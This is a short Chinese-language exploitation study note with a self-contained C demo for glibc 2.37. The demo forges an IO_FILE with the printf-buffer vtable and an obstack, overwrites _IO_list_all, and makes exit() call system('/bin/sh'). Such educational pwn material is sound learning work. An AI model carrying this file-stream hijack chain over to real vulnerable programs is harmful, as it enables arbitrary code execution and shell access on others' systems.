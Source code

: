 ## Demo调试

这个Demo是我按照大佬的调用思路去写的，走的是exit调用IO，事先将IO_list_all改成了我们的fake_IO_FILE

> libc版本2.37_1

### 源码

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
		
	size_t *printf_buff_as_file = malloc(0x420);
	size_t *print_buff = malloc(0x420);
	size_t *obstack = malloc(0x420);
	
	size_t puts_addr = &puts;
	size_t lib_base = puts_addr - (0x7ffff7e379c0 - 0x7ffff7dbd000);
	size_t IO_printf_buffer_as_file_jumps = lib_base + (0x7ffff7fafd00 - 0x7ffff7dbd000);
	size_t bin_sh = lib_base + (0x7ffff7f721d2 - 0x7ffff7dbd000);
	size_t system = lib_base + (0x7ffff7e0bbd0 - 0x7ffff7dbd000);
	size_t IO_list_all = lib_base + (0x7ffff7fb4680 - 0x7ffff7dbd000);
	size_t *p2 = (size_t *)IO_list_all;
	
	
	*(printf_buff_as_file+0xd8/8)=IO_printf_buffer_as_file_jumps; //vtable
	*(printf_buff_as_file+0xe0/8)=(size_t)print_buff;		//fp->next
	*(printf_buff_as_file+0x20/8)=0;				//_IO_write_base
	*(printf_buff_as_file+0x28/8)=(size_t)print_buff+0x30+0x1;	//_IO_write_ptr
	*(printf_buff_as_file+0x30/8)=(size_t)print_buff+0x30+0x1;	//_IO_write_end
	
	*(print_buff+0x8/8)=(size_t)print_buff+0x30+0x1;//buffer->write_ptr
	*(print_buff+0x10/8)=(size_t)print_buff+0x30+0x1;//buffer->write_end
	*(print_buff+0x20/8)=0xb;
	*(print_buff+0x28/8)=(size_t)obstack;
	
	
	*(obstack+0x38/8)=system;
	*(obstack+0x48/8)=bin_sh;
	*(obstack+0x50/8) = 1;
	
	*p2 = printf_buff_as_file;
	
	exit(0);
	
	return 0;
}
```

直接开调
